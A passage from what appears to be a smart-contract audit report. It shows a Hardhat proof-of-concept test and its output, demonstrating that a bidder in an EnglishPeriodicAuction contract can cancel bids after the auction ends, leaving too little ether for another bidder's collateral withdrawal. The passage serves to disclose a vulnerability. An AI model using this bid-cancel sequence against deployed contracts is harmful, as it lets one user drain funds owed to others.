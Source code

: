 ```solidity

      // bidder 2 should get back the collateralAmount2. Amounts will be different becuause bigInt in js doesn't support decimals
      expect(collateralAmount2 - balanceAfterCancel.sub(balanceBeforeCancel)).to.be.lessThan(1e17);

      // bidder 1 tries to close the auction
      console.log("\t\t> Bidder1 closes the auction");
      await instance.connect(bidder1).closeAuction(0);

      console.log("\t\t> Ether Available in Auction contract after bidder1 closes the auction: ", (await ethers.provider.getBalance(instance.address)).toString());

      // initial bidder will not be able to withdraw the collateral since there are less funds than the bid amount
      console.log("\t\t> Initial Bidder tries to withdraw the collateral, but will revert because the avaiable balance in auction contract is: %s, \n\t\tbut,\n", (await ethers.provider.getBalance(instance.address)).toString());
      await expect(instance.connect(owner).withdrawCollateral()).to.be.reverted;
    });
```

#### Output:

```bash
AAMIR@Victus MINGW64 /d/radicle-audit/pco-art (master)
$ npx hardhat test --grep 'Cancel All bid will cancel out the highest bidder'

  EnglishPeriodicAuction
    cancelBid
                > Bidder1 (0x3C44CdDdB6a900fa2b585dd299e03d12FA4293BC) bids for: 
                        > Amount: 1100000000000000000            Collateral Deposited:  1210000000000000000
                > Bidder2 (0x90F79bf6EB2c4f870365E785982E1f101E93b906) bids for: 
                        > Amount: 1200000000000000000            Collateral Deposited:  1320000000000000000
                > Ether Available in Auction contract after 2 bids:  2530000000000000000
                > Moving time to auction end
                > Bidder2 cancels all the bids
                > Amount to be withdrawn: 1320000000000000000
                > Ether Available in Auction contract after bidder2 cancels And withdraws his bid:  1210000000000000000
                > Bidder1 closes the auction
                > Amount added to available collaterable of Old Bidder: 1200000000000000000
                > New owner of steward license:  0x90f79bf6eb2c4f870365e785982e1f101e93b906
                > Ether Available in Auction contract after bidder1 closes the auction:  1090000000000000000
                > Initial Bidder tries to withdraw the collateral, but will revert because the avaiable balance in auction contract is: 1090000000000000000,
                but,

                > Amount to be withdrawn: 1200000000000000000
      ✔ Cancel All bid will cancel out the highest bidder (855ms)


  1 passing (2s)

```
## Tool used
